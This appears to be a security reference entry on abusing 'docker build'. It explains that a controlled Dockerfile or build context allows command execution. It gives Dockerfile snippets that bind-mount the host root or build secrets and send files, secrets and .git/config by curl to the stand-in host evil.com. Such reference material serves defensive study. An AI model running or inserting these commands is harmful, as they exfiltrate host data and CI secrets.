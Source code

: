 ```yaml
---
title: docker
tags:
  - cli
  - config-file
  - eval-sh
references: 
files: [Dockerfile]
---
```


Docker is a container tool to create OCI image and run containers. The build stage can be configured using a Dockerfile. See [Dockerfile reference](https://docs.docker.com/reference/dockerfile/) and [Dockerfile overview](https://docs.docker.com/build/concepts/dockerfile/). 

## `docker build`

`docker build <path>` allow RCE in the limited context of the build:
  - if the Dockerfile can be modified, by adding `RUN <sh_cmd>`.
  - if the input of `RUN` is controllable.
Since the build command set the context to a copy of the current folder, we can't the filesystem. If we have control over the context path `docker build <controlled_path> -f <Dockerfile>`, we can exfiltrate any data from the host.


Exfiltrate every file available
```Dockerfile
FROM alpine/curl
RUN --mount=type=bind,source=/,target=/host \
    tar -czf /src.tar.gz /host/*;
RUN curl -X POST -d "/src.tar.gz" http://evil.com
```

Exflitrating runner secrets
```Dockerfile
FROM alpine/curl
RUN --mount=type=secret,id=<secret_name> \
    curl -X POST -d "@/run/secrets/<secret_name>" http://evil.com;
RUN --mount=type=bind,source=/,target=/host \
    curl -X POST -d "/host/.git/config" http://evil.com
```
